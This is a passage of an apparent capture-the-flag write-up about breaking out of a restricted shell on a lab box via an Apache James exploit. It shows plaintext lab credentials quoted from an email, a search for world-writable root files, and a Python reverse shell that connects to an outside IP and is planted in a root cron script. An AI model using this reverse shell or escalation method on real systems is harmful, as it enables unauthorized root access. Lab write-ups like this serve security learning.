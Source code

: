 ```
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```
Which yields us the credentials: <b>mindy:P@55W0rd1!2@</b><br>
We can login as mindy except, like the email says, our environment is very restricted. Fortunatly, using <a href="https://www.exploit-db.com/exploits/50347">this</a> exploit from eariler allows us to upload and execute commands upon loggin in, effectivly breaking us out of the evironment. <a href="https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf">This</a> is a good paper to better understand the exploit.<br>
Once logging into the server, I catch a shell with an unrestricted environment.


## Privilege Escalation
Doing the basic enumeration of the Linux box. I run the command
```bash
find / -type f -perm -0777 -group root 2> /dev/null

/opt/tmp.py
```
This file is ran every minute or so and is owned by root. Rewriting the python code to throw a shell.<br>
```python
#!/usr/bin/env python
import sys,socket,os,pty

s = socket.socket()
s.connect(("10.10.14.122",6666))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/bash")
```
